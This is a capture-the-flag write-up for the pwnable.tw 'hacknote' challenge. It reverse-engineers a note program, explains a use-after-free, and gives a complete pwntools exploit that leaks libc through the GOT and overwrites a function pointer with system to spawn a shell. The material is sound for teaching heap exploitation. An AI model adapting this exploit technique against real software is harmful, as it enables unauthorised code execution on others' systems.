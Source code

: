 ---
title: '[PWNABLE.TW] - hacknote'
description: 'Is this note safe?'
image: '../../../img/cover_photo_wargame_imresizer.png'
date: 2025-05-03
tags: ['2025', 'Wargame', 'pwnable.tw']
authors: ['kdot']
draft: false
---


## Challenge Information

<Challenge
  category="pwn"
  points={200}
  description="A good Hacker should always take good notes!"
  flag="FLAG{Us3_aft3r_fl3333_in_h4ck_not3}"
>
</Challenge>

## Reverse Engineering

```sh title='checksec'
alter ^ Sol in /mnt/e/sec/lab/pwnable.tw/hacknote
$ checksec hacknote
[*] '/mnt/e/sec/lab/pwnable.tw/hacknote/hacknote'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
```

So we start with using `checksec` to check the binary's security. We can see that the binary has a stack canary, no PIE, and NX enabled. Now let's use IDA to decompile the binary and analyze it.

<details id="main">
<summary>main function</summary>
<p>

```c
void __noreturn main()
{
  int choice; // eax
  char buf[4]; // [esp+8h] [ebp-10h] BYREF
  unsigned int v2; // [esp+Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      read(0, buf, 4u);
      choice = atoi(buf);
      if ( choice != 2 )
        break;
      delete();
    }
    if ( choice > 2 )
    {
      if ( choice == 3 )
      {
        print();
      }
      else
      {
        if ( choice == 4 )
          exit(0);
LABEL_13:
        puts("Invalid choice");
      }
    }
    else
    {
      if ( choice != 1 )
        goto LABEL_13;
      add();
    }
  }
}
```

</p>
</details>

<details id="note struct">
<summary>note struct</summary>
<p>
```sh title='note_t struct'
00000000 struct note_t // sizeof=0x8
00000000 {
00000000     void (*pFun)(const char *);
00000004     char *content;
00000008 };
```
</p>
</details>

<details id="add">
<summary>add function</summary>
<p>
```c
unsigned int add()
{
  note_t *note; // ebx
  int idx; // [esp+Ch] [ebp-1Ch]
  int size; // [esp+10h] [ebp-18h]
  char buf[8]; // [esp+14h] [ebp-14h] BYREF
  unsigned int v5; // [esp+1Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  if ( n5 <= 5 )
  {
    for ( idx = 0; idx <= 4; ++idx )
    {
      if ( !ptr[idx] )
      {
        ptr[idx] = (note_t *)malloc(8u);
        if ( !ptr[idx] )
        {
          puts("Alloca Error");
          exit(-1);
        }
        ptr[idx]->pFun = (void (*)(const char *))puts_w;
        printf("Note size :");
        read(0, buf, 8u);
        size = atoi(buf);
        note = ptr[idx];
        note->content = (char *)malloc(size);
        if ( !ptr[idx]->content )
        {
          puts("Alloca Error");
          exit(-1);
        }
        printf("Content :");
        read(0, ptr[idx]->content, size);
        puts("Success !");
        ++n5;
        return __readgsdword(0x14u) ^ v5;
      }
    }
  }
  else
  {
    puts("Full");
  }
  return __readgsdword(0x14u) ^ v5;
}
```
</p>
</details>

<details id="delete">
<summary>delete function</summary>
<p>
```c
unsigned int delete()
{
  int n5; // [esp+4h] [ebp-14h]
  char buf[4]; // [esp+8h] [ebp-10h] BYREF
  unsigned int v3; // [esp+Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  printf("Index :");
  read(0, buf, 4u);
  n5 = atoi(buf);
  if ( n5 < 0 || n5 >= ::n5 )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( ptr[n5] )
  {
    free(ptr[n5]->content);
    free(ptr[n5]);
    puts("Success");
  }
  return __readgsdword(0x14u) ^ v3;
}
```
</p>
</details>

<details id="print">
<summary>print function</summary>
<p>
```c
unsigned int print()
{
  int n5; // [esp+4h] [ebp-14h]
  char buf[4]; // [esp+8h] [ebp-10h] BYREF
  unsigned int v3; // [esp+Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  printf("Index :");
  read(0, buf, 4u);
  n5 = atoi(buf);
  if ( n5 < 0 || n5 >= ::n5 )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( ptr[n5] )
    ptr[n5]->pFun((const char *)ptr[n5]);
  return __readgsdword(0x14u) ^ v3;
}
```

</p>
</details>

So we can see that the binary has a menu with 4 options:

1. Add a note
2. Delete a note
3. Print a note
4. Exit

In the `add` function, the program lets us create a note with a size we choose. Each note is 8 bytes in size and contains a function pointer and a content pointer. The `delete` function allows us to remove a note at a chosen index. However, there is a `Use-After-Free` vulnerability because the pointer is not cleared after the memory is freed. The `print` function lets us print a note at any index we choose. One special thing here is that it uses the function pointer stored inside the note to print the content.

## Exploit Strategies

We need to do two things here:

- Since the binary doesn't have free leak for us -> We need to leak libc address to calculate the base address of libc.
- Leverage the `print` function to arbitrary code execution, since we can control the function pointer via `Use-After-Free`.

## Exploit Development

Because this is the heap note challenge so I create some helper functions to make the exploit easier to read. The first function is `add`, which allows us to add a note with a size of our choice. The second function is `delete`, which allows us to delete a note at the index we choose. The third function is `print`, which allows us to print a note at the index we choose.

```py title='exploit.py'
def choice(option: int):
    sna(b'choice :', option)


index = 0
def add(size, content):

    global index
    index += 1
    choice(1)
    sna(b'size :', size)
    sa(b'Content :', content)
    return index - 1


def delete(index):
    choice(2)
    sna(b'Index :', index)


def print(index):
    choice(3)
    sna(b'Index :', index)
```

Then I will create 2 notes and then free these 2 notes, the purpose of this is we want to change the address of `content pointer` to the address of `GOT` to leak, and if we only free a single chunk, for example I create a note of 0x10 bytes, then in fastbins it will look like this

```sh title='GDB'
pwndbg> fastbins
fastbins
0x10: 0x804b000 ◂— 0
0x18: 0x804b010 ◂— 0
```

Even though the program doesn’t delete the data when it calls free, so the content in memory stays the same, the real problem is in the `add()` function. Before the program lets us write to the note’s content, it first creates a new note with a fixed size of 0x8 bytes.

Because of this, it takes a chunk from the fastbin — which is the same memory we might want to change. So, even if the old data is still there, that chunk is now used for a new note, and we lose the chance to change or control it. And that's why we need to create 2 chunks and free them.

```py title='exploit.py'

    chunkA = add(0x10, b'A'*4)      # index 0
    chunkB = add(0x10, b'B'*4)      # index 1

    delete(chunkA)
    delete(chunkB)
```

```sh title='GDB'
pwndbg> fastbins
fastbins
0x10: 0x804b028 —▸ 0x804b000 ◂— 0
0x18: 0x804b038 —▸ 0x804b010 ◂— 0
pwndbg> vis

0x804b000       0x00000000      0x00000011      ........         <-- fastbins[0x10][1]
0x804b008       0x00000000      0x0804b018      ........
0x804b010       0x00000000      0x00000019      ........         <-- fastbins[0x18][1]
0x804b018       0x00000000      0x00000000      ........
0x804b020       0x00000000      0x00000000      ........
0x804b028       0x00000000      0x00000011      ........         <-- fastbins[0x10][0]
0x804b030       0x0804b000      0x0804b040      ....@...
0x804b038       0x00000000      0x00000019      ........         <-- fastbins[0x18][0]
0x804b040       0x0804b010      0x00000000      ........
0x804b048       0x00000000      0x00000000      ........
0x804b050       0x00000000      0x00020fb1      ........         <-- Top chunk
```

So the next time we `add` a note, we will request a size `0x8`, then with `malloc(0x8)`, first it will take `0x804b028` and with the next time it will take `0x804b000` and allow us to write here, and `0x804b000` is chunkA with index 0, so when we use the `print()` function with index 0, we will get the address of libc

```py title='exploit.py'
    chunkC = add(0x8, p32(printFunc) + p32(exe.got.puts))
    print(chunkA)

    puts = u32(rb(4))
    libc.address = puts - libc.sym.puts

    info('puts @ %#x', puts)
    success('libc base @ %#x', libc.address)
```

Check the heap again:

```sh title='GDB'
pwndbg> vis

0x804b000       0x00000000      0x00000011      ........
0x804b008       0x0804862b      0x0804a024      +...$...
0x804b010       0x00000000      0x00000019      ........         <-- fastbins[0x18][1]
0x804b018       0x00000000      0x00000000      ........
0x804b020       0x00000000      0x00000000      ........
0x804b028       0x00000000      0x00000011      ........
0x804b030       0x0804862b      0x0804b008      +.......
0x804b038       0x00000000      0x00000019      ........         <-- fastbins[0x18][0]
0x804b040       0x0804b010      0x00000000      ........
0x804b048       0x00000000      0x00000000      ........
0x804b050       0x00000000      0x00020fb1      ........         <-- Top chunk
```

Nice nice, everything is working as expected. `chunkA` is at `0x804b000`, and `chunkC` is at `0x804b028`. After have the libc base address, we just need to do the same method, `delete(chunkC)` and we will have 2 0x8 bytes chunks in fastbins, `add()` new note, and then write the address of `system` and the strinng `;sh;` to it

```py title='exploit.py'
    delete(chunkC)
    chunkD = add(0x8, p32(libc.sym.system) + b';sh;\0')
    print(chunkA)
```

<details id="full exploit">
<summary>Full exploit</summary>
<p>

```py title='exploit.py'
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.6", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./hacknote_patched', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, aslr=False, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(1)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
init-pwndbg

b *0804869A
b *0x804872C
b *0x804893D
b *0x8048863
b *0x8048863

c
'''

p = start()

# ==================== EXPLOIT ====================

def choice(option: int):
    sna(b'choice :', option)


index = 0
def add(size, content):

    global index
    index += 1
    choice(1)
    sna(b'size :', size)
    sa(b'Content :', content)
    return index - 1


def delete(index):
    choice(2)
    sna(b'Index :', index)


def print(index):
    choice(3)
    sna(b'Index :', index)


def exploit():

    printFunc = 0x804862B

    chunkA = add(0x10, b'A'*4)      # index 0
    chunkB = add(0x10, b'B'*4)      # index 1

    delete(chunkA)
    delete(chunkB)

    chunkC = add(0x8, p32(printFunc) + p32(exe.got.puts))
    print(chunkA)

    puts = u32(rb(4))
    libc.address = puts - libc.sym.puts

    info('puts @ %#x', puts)
    success('libc base @ %#x', libc.address)

    delete(chunkC)
    chunkD = add(0x8, p32(libc.sym.system) + b';sh;\0')
    print(chunkA)


    interactive()

if __name__ == '__main__':
    exploit()
```
</p>
</details>
